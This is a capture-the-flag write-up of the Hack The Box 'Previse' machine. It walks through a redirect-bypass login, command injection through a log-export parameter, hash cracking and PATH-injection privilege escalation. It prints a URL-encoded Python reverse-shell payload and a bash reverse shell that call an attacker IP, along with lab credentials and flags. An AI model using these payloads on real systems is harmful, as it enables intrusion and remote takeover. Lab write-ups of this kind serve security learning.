


# Previse

## Brief Summerize

1. Nmap to scan open service 
2. Web Application on HTTP
3. Enumerate the web path 
4. Find the authentication not sufficiency implement loophole 
    - Bypass the admin procedure to login
5. Create a new account by this loophole
6. Find the source code of this site 
7. Analysis Source code to find the sensitive function (exec), it will call python.
8. Exploit the site by this exec and upload a python web shell.
9. Find the gzip will be execute by root in the server 
10. Using Path injection to change the gzip location to fake gzip.

## Recon 

### nmap 


- Rsult of nmap 
    1. SSH port 22
    2. HTTP port 80

### Check Web Service 

- Browse the web service 
- The index page will redirect to login page


### Gobuster 

- Using Gobuster to enumerate this web 

```
# gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-midium.txt -t 30 -x php
```


- Result show that is a PHP web service 
- The page which can be enumerated as follow 
    - login
    - download 
    - index
    - files
    - nav
    - header
    - footer
    - status
    - logout
    - accounts
    - config
    - logs
- And 2 directory 
    - js
    - css


- The interesting point is most of the page will redirect back to ```login.php```, it means most of them need to login

1. login.php


2. logs.php


3. file_logs.php


4. download,php


5. files.php


6. accounts.php


- There are 4 pages can be access directly
    - nav.php
    - header.php
    - footer.php
    - config.php 
    

-　The only one which disclose the useful information is ```nav.php```, it shows the function after login 


## Exploit (foothold)

- So, the idea of hacking into the web is find out the way to bypass or the login procedure
- Using Burp Suit to intercept the other page again, 
- Trick things happened, The burp has a strong feature which can intercept the response message

- First, we set up the proxy to intercept the **Reseponse**


- Then, We access to the ```accounts.php``` and intercept it with BurpSuit


- Forward it , we can get the Response from server
 

- Change the Status from ```302 Found``` to ```200 OK ```


- Back to the browser, We can find that the page doesn't be redirect to login page, it stay on the accounts page


- So we can use the same step to create a new account






- After that, we can use the new account to login 


- And we can access the other function now
- According to our observe, we can first to download a backup file under the **FILES** page
- Download it (```download.php?file=32```)


- upzip it, it's source code of this site


- First, Check ```config.php```
- As Expect, some sensitive information are store in this file.
- DB credential
```
root / mySQL_p@ssw0rd!:
```


- So we can expect that the password may be use in multiple place (ex. ssh), but after trying , it failed to login to ssh.


- So, let's dig into other source code to find out more information.
- Doing the code review, we can find more interest things,we first can know there are two files don't show up in the nav.php: ```file_logs.php``` and ```logs.php```
- After dig into these two files, we know the ```file_logs.php``` is a static html .
- When we download the log file , it will call ```logs.php``` which the log download function write in here
- Then we view the ```logs.php```, and find a more interesting thing.
- The log download function can use different delim to cause different format of log file.
- And this feature is using another python file(```log_process.py```) to parse and split the log.


- So, I think that maybe we can inject a python web shell with this code.
- Then I tried to access the page first, and intercept with burp suit


- Then we inject the following payload to the parameter (delim).

```
delim=comma%26python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.16.13",4445))%20%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```


- The whole request just like follow:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=qjgq968evfh8l1jhjpl5q73d1j
Upgrade-Insecure-Requests: 1


delim=comma%26python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.16.13",4445))%20%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```


- Before the payload inject, We start the ```nc```  and let it listen to the port 4445 first.
- After the payload injecting, the reverse shell connect back to out port 4445
- I can do some thing with the lowest permission (www-data)


-  So I think the first thing after getting the shell is that trying to get higher permission.
-  I have mysql account from the config file, so I try to connect to the mysql DB
```
# mysql -u root -D previse -p
```
- I get into the DB, and get the accounts table with following query step.

```
# show databases;
# use previse;
# select * from accounts;
```


- Copy the password , it looks like a hashed password.
- Using john&Ripper or hashcat to decrypt it

```
# hashcat -m <hashtype> <hashword> <candidateword>
# hashcat -m 500 hash.txt password.txt
```


#### Reminder Start
    
    If the attack machine is Virtual Machine
    Before you do the password cracking with hashcat
    Please make sure the memory is enough or not or make sure the wordlist not too big.

- I think the following command also can crack the md5 hash, but seems there is a special character will cause failed , and I haven't find any method to solve this problem.
```
# john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt account.txt

```
#### Reminder Done


- We got the credentials

```
m4lwhere / ilovecody112235!
```

- Using the credential we got to login the SSH server


- After we login, we can view the ```user.txt``` under the user's directory 
- get user flag
```
f6a5b0a7ceaedf5b6d8509774b4cacdd
```


## Privilege Escalation 

### Gathering Information 

- Check sudo list 


- I found that there is a file which can be executed by m4lwhere is owned by root
```
/opt/scripts/access_backup.sh
```
- Read this shell script content
- It's a hint that the author let this file run as root to execute gzip to compress the log file and store it.
- It is the loophold for me to get root permission.


- Here is my idea to get the shell with root permission 
    1. I want to find some tool to let me create another reverse shell in the victim server
    2. Since the shell file will execute the gzip, so I want to create a fake gzip file and trigger the ```access_backup.sh``` to execute the fake gzip rather than the real one.
    3. Finally, I can get the shell with root permission

- So, first is find some tool, there are some things I wonder which can be wrote into fake gzip.
    1. netcat
    2. ```bash -i ```
    3. python 

### Exploit 

- Finally, I use bash to launch a connection to my server.
```
# echo "bash -i >& 10.10.16.13/44446 0>&1" > gzip
# cat gzip
# chmod 777 gzip
```


- Then the next things is find out a way to make ```access_backup.sh``` execute the fake gzip.
- In here, I really have no idea, so I read the write up, it told me that the **PATH Injection** is a great method to achieve it 

```
# echo $PATH
# export PATH=$(pwd):$PATH
# echo $PATH
```


#### PATH Injection 

    In this challenge, 
    we create a fake gzip and the goal is let the shell which has root permission can run the fake gzip .
    so we use path injection .
    The PATH injection is based on changing the value of PATH Variable , this variable are the path where the program runs in our system.
    By PATH Injection, I change the target directory which the root will run at first to our fake gzip location.
#### PATH injection DONE 


### Root flag

- Execute ```access_backup.sh```
```
# sudo /opt/scripts/access_backup.sh
```

- Get root flag 

```
7912fbe6a6a900bf09c25f98ef8da7a1
```


## Reference 

- [Write up 1](https://medium.com/acm-juit/previse-htb-writeup-a3d0acecb937)
- [Write up 2](https://zhuanlan.zhihu.com/p/397724780)
- [Write up 3](https://pingback.com/nap0/previse-writeup-hackthebox1)
- [Write up 4](https://hackhouse.net/htb-previse/)
- [john&Ripper](https://www.hackercat.org/hacker-tools/john-the-ripper)
- [HashCat](https://home.gamer.com.tw/creationDetail.php?sn=3669363)
- [Python ReverseShell 1](https://securityweekly.com/2011/10/23/python-one-line-shell-code/)
- [Python ReverseShell 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
- [md5crypt](https://tools.ietf.org/doc/tcllib/html/md5crypt.html)
- [PATH Injection 1](https://www.youtube.com/watch?v=jjOa9jPdlHg)
- [PATH Injection 2](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)


###### tags: `HackTheBox` `linux`